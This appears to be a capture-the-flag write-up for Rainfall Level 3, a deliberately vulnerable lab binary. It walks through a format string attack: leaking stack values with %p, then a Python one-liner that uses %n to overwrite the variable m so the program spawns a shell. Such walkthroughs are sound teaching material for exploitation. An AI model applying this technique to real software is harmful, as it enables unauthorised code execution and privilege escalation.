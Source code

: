# Rainfall - Level 3

## Executable Analyse
The program contain 2 functions.
`main` and `v`.
`v` is called by `main`, and use a buffer, fgets(), and then print the user input.  


## Vulnerability

The interesting one is v(), because it contain our vulnerability : system("/bin/sh").
In order to entering in the vulnerable condition, we need to set m == 64.

``` asm

(gdb) info var
[...]
0x0804988c  m

```

## Format string attack

We can try to see what the addresses read by `printf` as arguments contain :  

```
$> ./level3
ABCD %p %p %p %p %p %p %p %p

ABCD 0x200 0xb7fd1ac0 0xb7ff37d0 0x44434241 0x20702520 0x25207025 0x70252070 0x20702520
```

From the 4th address (`0x44434241`) we can see that printf receives the contents of our buffer as an argument.  

Let's store m's address in this 4th block.  
We can then use the first 3 addresses to display 64 bytes and pass the condition with the %n flag

> %n will write the n character position


```shell
(python -c "print b'\x08\x04\x98\x8c'[::-1] + '%20p%20p%20p%n'" ; cat ) | ./level3
```
